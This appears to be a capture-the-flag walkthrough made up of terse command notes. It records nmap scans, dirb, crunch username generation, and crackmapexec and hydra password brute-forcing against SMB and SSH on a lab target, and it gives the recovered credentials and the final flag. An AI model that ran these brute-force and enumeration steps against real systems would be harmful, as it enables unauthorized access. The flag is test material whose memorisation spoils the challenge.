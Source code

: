 ```bash
nmap -F 0.0.0.0
nmap -F 0.0.0.0 -sV
```

![[Captura desde 2024-09-09 12-16-11.png]]

```bash
dirb http://0.0.0.0
```

![[Captura desde 2024-09-09 12-17-52.png]]

```bash
crunch 3 3 -t k@@ > userlist.txt
```

![[Captura desde 2024-09-09 12-21-37.png]]

```bash
crackmapexec smb 0.0.0.0 -u userlist.txt -p /usr/share/wordlists/rockyou.txt
```

![[Captura desde 2024-09-09 12-24-21.png]]

```bash
nmap -p 445 --script smb-enum-shares 0.0.0.0
```

![[Captura desde 2024-09-09 12-25-11.png]]

```bash
smbclient //0.0.0.0/Anonymous -U kaa%123456
```

![[Captura desde 2024-09-09 12-27-52.png]]

```
more staff.txt
```

![[Captura desde 2024-09-09 12-28-25.png]]

```bash
smbclient //0.0.0.0/IPC$ -U kaa%123456
```

![[Captura desde 2024-09-09 12-46-25.png]]

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 0.0.0.0 ssh -t 4 -f -vV
```

![[Captura desde 2024-09-09 13-32-48.png]]

Username `jan`
Password `armando`

```bash
vim /home/kay/pass.bak
```

**flag `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`**

